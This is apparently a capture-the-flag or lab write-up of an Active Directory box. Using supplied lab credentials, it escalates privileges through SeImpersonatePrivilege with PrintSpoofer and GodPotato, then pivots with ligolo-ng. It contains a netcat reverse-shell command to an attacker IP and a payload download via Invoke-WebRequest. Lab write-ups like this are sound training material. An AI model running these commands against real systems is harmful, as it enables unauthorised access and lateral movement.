 # Active Directory

I start off with the credentials:

```
Eric.Wallows / EricLikesRunning800
```

I start by enumerating for SMB shares:

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

We quickly see that we can connect through evil-winrm and that the user eric.wallows has SeImpersonatePrivilege

<figure><img src="../../../../.gitbook/assets/image (193).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://usersince99.medium.com/windows-privilege-escalation-token-impersonation-seimpersonateprivilege-364b61017070" %}

So i upload printspoofer to the box:

<figure><img src="../../../../.gitbook/assets/image (194).png" alt=""><figcaption></figcaption></figure>

But there is a problem with a persistent shell because evil winrm is not interactive, so i go on another method, download and upload godpotato and launch this command:

```
C:/Users/eric.wallows/Desktop/GodPotato-NET4.exe -cmd "C:/Users/eric.wallows/Desktop/nc.exe -e cmd.exe 192.168.45.157 1234"
```

and i get a reverse shell:

<figure><img src="../../../../.gitbook/assets/image (195).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (196).png" alt=""><figcaption></figcaption></figure>

Ok so whil looking at the IP config, we see that this machine is dual homed:

<figure><img src="../../../../.gitbook/assets/image (197).png" alt=""><figcaption></figcaption></figure>

So i need to be able to pivot to access the services on the other subnet, i'll  use ligolo:

```
git clone https://github.com/nicocha30/ligolo-ng.git
cd ligolo-ng
go build -o agent ./cmd/agent
go build -o proxy ./cmd/proxy
```

From my linux box i can send to target 2 ways, with or without winrm:

without:

```
scp agent.exe user@windows-target:C:\Users\Public\agent.exe
```

with:

```
Invoke-WebRequest -Uri "http://YOUR_IP/agent.exe" -OutFile "C:\Users\Public\agent.exe"
```

<figure><img src="../../../../.gitbook/assets/image (198).png" alt=""><figcaption></figcaption></figure>

I got some problems with:

```sh
[Feb 21, 2025 - 20:41:38 (CET)] exegol-Offsec ligolo-ng # ./proxy -laddr 0.0.0.0:11601

ERRO[0000] Could not load TLS certificate. Please make sure paths are correct or use -autocert or -selfcert options  certfile=certs/cert.pem keyfile=certs/key.pem
FATA[0000] open certs/cert.pem: no such file or directory
```

and fixed it with:

```
./proxy -laddr 0.0.0.0:11601 -selfcert
```
